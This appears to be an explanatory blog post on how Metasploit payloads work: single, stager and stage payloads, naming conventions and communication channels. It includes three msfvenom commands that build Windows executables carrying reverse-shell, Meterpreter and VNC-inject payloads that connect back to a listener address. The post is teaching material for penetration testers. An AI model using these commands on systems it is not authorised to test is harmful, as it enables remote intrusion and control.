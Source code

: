 ```yaml
---
title: "Understanding How Payloads Work in Metasploit"
description: "Learn more about the Metasploit framework."
icon: "code"
draft: false
---
```


# Understanding How Payloads Work in Metasploit

The Metasploit Framework is a powerful tool used for developing, testing, and executing exploits against remote targets. One of the critical components in this process is the payload. This blog post aims to break down the functionality of payloads in Metasploit, explaining their types and how they are used.

## What are Payloads?

In Metasploit, payloads are modules that are used to execute code on a target system. They are stored in the directory `modules/payloads/{singles, stages, stagers}/<platform>`. When the framework starts, it combines stages with stagers to create a complete payload ready for use in exploits. Handlers are then paired with these payloads to manage the sessions and communication mechanisms.

### Naming Conventions

Payloads in Metasploit are given reference names that describe their components:
- **Staged payloads**: `<platform>/[arch]/<stage>/<stager>`
- **Single payloads**: `<platform>/[arch]/<single>`

For example, the payload `windows/x64/meterpreter/reverse_tcp` breaks down as follows:
- **Platform**: Windows
- **Architecture**: x64
- **Stage**: Meterpreter
- **Stager**: Reverse TCP

In some cases, the architecture might be optional. For instance, `php/meterpreter/reverse_tcp` does not include an architecture because PHP payloads deliver interpreted code rather than native binaries.

## Types of Payloads

### Singles

Single payloads are "fire-and-forget." They execute the payload code immediately without requiring any further communication with the Metasploit framework. This type of payload is useful in scenarios where the target has no network access, such as when using a file format exploit delivered via a USB drive.

### Stagers

Stagers are small payloads designed to establish a communication channel and then load a larger, more complex payload. Using a stager allows for the initial payload to be small and quick to execute, which is useful for bypassing size restrictions and avoiding detection. The stager sets up the communication channel and passes control to the next stage, which is the more significant part of the payload.

### Stages

Stages are the larger payloads that the stager loads into memory. They can be arbitrarily large since the stager handles any size restrictions. This allows stages to be written in higher-level languages like C, providing more functionality and complexity in the final payload.

## Delivering Staged Payloads

When delivering staged payloads, the IP address and port that the payload should connect back to are embedded in the stager. All staged payloads consist of a small stub that sets up communication and executes the next stage. 

To create an executable using a staged payload, you would use the following commands in Metasploit's msfvenom:

```bash
msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```

These commands create functionally identical executable files that differ only in randomization elements, making them unique. 

### Communication Mechanisms

The Ruby side of Metasploit acts as a client, using the transport mechanism set up by the stager (e.g., TCP, HTTP, HTTPS). Depending on the type of stage used:
- **Shell Stage**: Metasploit connects the remote process’s standard input/output to your terminal.
- **Meterpreter Stage**: Metasploit communicates using the Meterpreter protocol, offering more advanced features like file system navigation and command execution.

## Conclusion

Understanding how payloads work in Metasploit is crucial for effectively using the framework to exploit and manage remote systems. By combining singles, stagers, and stages, Metasploit allows for flexible and powerful payload delivery, making it a versatile tool for penetration testers and security professionals.

By mastering the components and delivery methods of Metasploit payloads, you can leverage the full capabilities of this powerful framework in your security assessments and exploit development.